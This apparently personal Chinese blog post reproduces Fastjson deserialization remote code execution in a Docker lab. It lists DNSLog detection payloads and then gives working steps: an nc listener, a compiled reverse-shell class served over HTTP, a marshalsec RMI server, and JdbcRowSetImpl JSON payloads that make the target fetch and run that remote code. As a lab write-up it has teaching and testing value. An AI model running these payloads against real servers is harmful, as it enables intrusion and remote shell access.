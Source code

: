 # Fastjson反序列化




## 简介

fastjson 是阿里巴巴的开源JSON解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean。可以通过反序列化导致远程命令执行。





## 漏洞检测方法

### DNSLog回显

下面有多个请求，分别放到请求数据包部分(可能某个不适用, 多试几个)，通过构造DNS解析来判断是否是Fastjson，Fastjson在解析下面这些Payload时会取解析val的值，从而可以**在dnslog接收到回显**，**以此判断是不是Fastjson**

```json
{"a":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}

{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.Inet6Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"xxx.dnslog.cn"}}""}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:"aaa"}
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}]
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:0
```



### 增加key

Java语言中常用的Json处理主要是Fastjson和Jackson，相对而言，Jackson比较严格，强制Key和JavaBean属性对齐，只能少Key不能多Key，所以可以通过增加一个Key看响应包会不会报错来判断。



## 利用复现

这里用的docker环境

<img src="http://image.geoer.cn/fj1.jpg"></img>



1.查看数据包，可以用上面的`漏洞检测`的方法来判断

<img src="http://image.geoer.cn/fj2.jpg"></img>





2.vps用nc监听端口8888

```bash
nc -lvvp 8888
```



EXP地址：https://github.com/CaijiOrz/fastjson-1.2.47-RCE

3.修改exp中反弹shell的服务器地址和为我们的

<img src="http://image.geoer.cn/fj3.jpg"></img>



4.使用javac进行编译，然后会生成一个Exploit.class文件

```bash
javac Exploit.java
```

<img src="http://image.geoer.cn/fj4.jpg"></img>



5.在Exploit.class的目录下开启python的简单http服务，相当于访问就能下载

```bash
python -m SimpleHTTPServer 8080
```

<img src="http://image.geoer.cn/fj5.jpg"></img>

6.执行下面的命令开启RMI/LDAP服务

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.43.102:8080/#Exploit" 9999	#8080是前面SimpleHTTPServer的端口

```

<img src="http://image.geoer.cn/fj6.jpg"></img>







7.构造exp请求包

```json
# 1.2.47以下版本
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.43.102:9999/Exploit",
        "autoCommit":true
    }
}







# 1.2.24以下版本
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://同上类文件地址:9999/TouchFile",
        "autoCommit":true
    }
}

```



8.构造好的请求包发送如下，注意：Content-type格式要`json`，并且是`post`请求

```bash
Content-type: application/json
```

<img src="http://image.geoer.cn/fj7.jpg"></img>



9.接收到反弹回来的shell

<img src="http://image.geoer.cn/fj8.jpg"></img>





参考：https://www.naraku.cn/posts/86.html



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AE%9E%E9%AA%8C/  

